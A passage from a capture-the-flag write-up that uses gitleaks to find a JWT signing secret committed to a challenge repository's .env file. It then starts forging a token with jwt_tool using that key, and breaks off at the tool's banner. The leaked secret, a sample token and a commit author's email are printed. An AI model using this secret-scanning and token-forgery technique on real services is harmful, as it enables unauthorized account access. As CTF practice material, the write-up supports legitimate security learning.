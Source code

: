 ### Leaked JWT key in git commits

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023]
└─$ git clone https://github.com/mowzk/repo-recon

┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023/repo-recon]
└─$ gitleaks detect -r gitleaks.json -v --source .

    ○
    │╲
    │ ○
    ○ ░
    ░    gitleaks

Finding:     JWT_SECRET=18b471a7d39b001bf79f12ab952f1364
Secret:      18b471a7d39b001bf79f12ab952f1364
RuleID:      generic-api-key
Entropy:     3.628928
File:        .env
Line:        1
Commit:      9483ea909352a24438acc7fdae5fb38eee437064
Author:      Elliot Ward
Email:       elliot.ward@snyk.io
Date:        2023-10-24T07:41:03Z
Fingerprint: 9483ea909352a24438acc7fdae5fb38eee437064:.env:generic-api-key:1

11:02PM INF 5005 commits scanned.
11:02PM INF scan completed in 215ms
11:02PM WRN leaks found: 1
```

![](attachment/3d5af97f3596f2df2ff27da799068002.png)

### Forge JWT token

Sign example token provided by `jwt_tool` with the leaked key, username doesn't matter

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023]
└─$ python /opt/sectools/web/JWT/jwt_tool/jwt_tool.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po" -p '18b471a7d39b001bf79f12ab952f1364' -S hs256

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
```